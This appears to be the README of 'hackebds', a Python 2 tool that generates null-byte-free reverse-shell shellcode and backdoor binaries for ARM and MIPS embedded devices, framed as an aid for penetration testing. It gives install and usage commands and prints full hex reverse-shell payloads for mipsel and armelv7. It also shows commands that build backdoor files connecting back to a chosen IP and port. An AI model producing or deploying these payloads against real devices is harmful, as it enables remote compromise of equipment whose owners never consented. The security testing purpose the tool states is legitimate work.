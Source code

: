 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time
**pip install hackebds**
```
pip install hackebds
....
Defaulting to user installation because normal site-packages is not writeable
Collecting hackebds
  Downloading hackebds-0.0.3-py2-none-any.whl (11 kB)
Installing collected packages: hackebds
Successfully installed hackebds-0.0.3
>>> import hackebds
>>> dir(hackebds)
['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__path__', 'aarch64', 'arm', 'extract_shellcode', 'mips']
>>> 
```
You can view the function through the dir function
![image-20220428161757170](./img/iShot2022-04-29 13.14.39.png)
```
 'Corefile', 'armebv5_backdoor', 'armebv5_reverse_sl', 'armebv7_backdoor', 'armebv7_reverse_sl', 'armelv5_backdoor', 'armelv5_reverse_sl', 'armelv7_backdoor', 'armelv7_reverse_sl', 'asm', 'atexception', '
```
#### Instructions for use

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
>>> mips.mipsel_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xee\xa3\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 226):
\x04\x40\x24\xe0\x7f\x70\xa0\xe3\x28\x70\x4d\xe5\x07\x70\x27\xe0\x27\x70\x4d\xe5\x07\x70\x27\xe0\x26\x70\x4d\xe5\x01\x70\xa0\xe3\x25\x70\x4d\xe5\x02\x70\xa0\xe3\x2c\x70\x4d\xe5\x2b\x40\x4d\xe5\x11\x70\xa0\xe3\x2a\x70\x4d\xe5\x5c\x70\xa0\xe3\x29\x70\x4d\xe5\x14\x40\x4d\xe5\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x1b\x40\x4d\xe2\x2c\x50\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x4f\xf0\x02\x01\x08\x46\x4f\xf0\x01\x01\x82\xea\x02\x02\x4f\xf0\xc8\x07\x07\xf1\x51\x07\x01\xdf\x06\x46\x29\x46\x4f\xf0\x10\x02\x07\xf1\x02\x07\x01\xdf\x30\x46\x81\xea\x01\x01\x4f\xf0\x3f\x07\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x20\x46\x81\xea\x01\x01\x82\xea\x02\x02\x03\xb4\x69\x46\x4f\xf0\x0b\x07\x01\xd
```
**This is the usage list for generating the backdoor file of the corresponding schema**
```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackebds import *
>>> mips.mipsel_backdo	or("127.0.0.1",4444)
mipsel_backdoor is ok in current path ./
>>> arm.armelv7_backdoor("127.0.0.1",4444)
backdoor_armelv7 is ok in ./
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
``` 
## install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

## Instructions for use for "install (2)"

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```
![image-20220428161403858](./img/image-20220428161403858.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```

![image-20220428161757170](./img/image-20220428161757170.png)

**You can view tool information with -h**

![image-20220428161847829](./img/image-20220428161847829.png)


## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## One-click build environment

To be added
